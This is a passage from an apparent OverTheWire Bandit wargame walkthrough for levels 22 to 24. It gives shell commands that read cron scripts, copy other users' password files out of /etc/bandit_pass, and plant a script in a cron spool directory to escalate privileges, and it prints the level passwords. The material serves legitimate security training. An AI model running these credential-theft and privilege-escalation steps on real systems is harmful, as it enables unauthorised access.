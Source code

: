 * SSH: ssh -o PubkeyAuthentication=no -p2220 bandit22@bandit.labs.overthewire.org
* Solution:

```bash
$ cd /etc/cron.d/
$ ls -l 
$ cat cronjob_bandit23
$ cat /usr/bin/cronjob_bandit23.sh
-- #!/bin/bash
-- myname=$(whoami)
-- mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
-- echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
-- cat /etc/bandit_pass/$myname > /tmp/$mytarget
$ /usr/bin/cronjob_bandit23.sh
## whoami = bandit22
$ myname=bandit23
$ mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
$ echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
$ cat /etc/bandit_pass/$myname > /tmp/$mytarget
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

## Bandit Level 23 → Level 24

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit23@bandit.labs.overthewire.org
* Solution:

```bash
$ cd /etc/cron.d/
$ ls -l 
$ cat cronjob_bandit24
$ cat /usr/bin/cronjob_bandit24.sh
$ mkdir /tmp/fcchx
$ cd /tmp/fcchx
$ touch getx.sh
$ chmod 777 getx.sh
$ ls -la getx.sh
$ vim getx.sh
-- #!/bin/bash
-- cat /etc/bandit_pass/bandit24 > /tmp/fcchx/password
$ touch password
$ chmod 666 password
$ ls -la password
$ cp getx.sh /var/spool/bandit24/
## Wait 5 sec.
$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Bandit Level 24 → Level 25
